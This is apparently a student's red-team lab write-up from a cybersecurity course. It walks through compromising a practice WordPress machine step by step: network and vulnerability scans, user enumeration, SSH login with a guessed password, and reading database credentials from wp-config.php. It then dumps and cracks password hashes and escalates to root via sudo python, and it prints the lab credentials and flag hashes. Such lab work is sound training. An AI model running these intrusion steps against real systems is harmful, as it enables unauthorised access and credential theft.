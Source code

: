 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
First, run `netdiscover -r 192.168.1.255/16`. This shows all of the machines on the network:

![netdiscover](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/netdiscover_picture_redteam.jpg)

After reconnaisance, http://192.168.1.110 is found to be a wordpress site. This is our target.

![Wordpress](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/wordpress_website_image_redteam.jpg)

Nmap scan `sudo nmap 192.168.1.110` results reveal the below services and OS details:

![nmap](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/nmap_scan_redteam.jpg)

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH, port 22
  - HTTP, port 80
  - RPC Bind, port 111
  - Netbios SSN, port 139
  - Microsoft-DS, port 445

Next, a vulnerability scan reveals many exploit options with the open ports:

`nmap -sV --script vuln 192.168.1.110`

![nmapvulnvid](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/nmapvulnscan1.jpg)

A video of the entire output from the vulnerability scan can be seen here: https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/nmap_vulnerability_scan_redteam.mp4


_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

FILL THIS BASED ON THE SCAN! The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

Using wpscan against the target-- `wpscan --url http://192.168.1.110/wordpress --enumerate u`, we find two distinct users: 'michael' and 'steven'.

![wpscan1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/wpscan_redteam_1.jpg)
![wpscan2](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/wpscan_redteam_2.jpg)


### Exploitation
Now that ssh is open and we have enumerated users, we can try to access the target by brute force.  This can be done using an application like hydra, but fortunately, we guessed the password on the third attempt. Running `ssh michael@192.168.1.110` and the password "michael" granted access to the target.

![ssh](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/SSH_as_Michael_redteam.jpg)

Directed to the config file for wordpress, we located and viewed wp-config.php file at /var/www/html.  

![configfind](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/Finding_wpconfig_redteam.jpg)

On the way to that file, the second flag was found:

![flag2](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/Flag2_redteam.jpg)

and using `grep -R ./ -e flag*` found the first flag:

![flag1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/flag1_Redteam.jpg)

Running `nano wp-config.php` revealed:

![wpconfig1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/WPConfig1_redteam.jpg)

Here we see the credentials for the user "root" with the password of "R@v3nSecurity"

Next, run `mysql -u root -p` and type in R@v3nSecurity as the password when prompted. This opens a MySQL session.

![sql1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/mysql_1_redteam.jpg)

Then checking what databases are available, run `show databases;`

![sql2](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/mysql_2_redteam.jpg)

Then selecting wordpress as the database to use, run `use wordpress;`

Run `show tables;` to see data we can inspect to try to find the flags.

![sql3](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/mysql_3_redteam.jpg)

Here, we can inspect the data inside these tables using `select * from <table name>;`. By doing this and inspecting several tables another 2 flags (flags 3 and 4) were found:

`select * wp_posts;`:

![flag3](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/flag3_redteam_insidemysqlselectasterixfromwp_posts.jpg)

Inspecting other tables revealed hashed credentials for the users michael and steven:

`select * from wp_users;`

![userhashes](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/mysql_4_hashes_redteam.jpg)

Using the hashed credentials saved to a .txt file and running that file through John the Ripper revealed the password for the user, "steven".

![johntheripper](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/JohnCrackedHash_and_Ssh_as_root_redteam.jpg)

Then sign in as steven using ssh and the password cracked by running John:
`ssh steven@192.168.1.110` and enter the password "pink84"

Running `sudo -l` as steven shows he doesn't need a password to access python. This can be exploited to escalate to root privileges by running:
`sudo python -c 'import pty;pty.spawn("bin/bash");'`

![escalatetoroot](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/Escalate_root_redteam_steven_python.jpg)

Now, with access to the root directory the fourth flag was found, again:

![flag4](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/flag4_redteam.jpg)


The Red Team was able to penetrate the Raven Security Target Machine and retrieve the following confidential data for the four 'flags':

| Flag  | Hash |
| ------------- | ------------- |
| 1  | b9bbcb33e11b80be759c4e844862482d  |
| 2  | fc3fd58dcdad9ab23faca6e9a36e581c  |
| 3  | afc01ab56b50591e7dccf93122770cd2  |
| 4  | 715dea6c055b9fe3337544932f2941ce  |

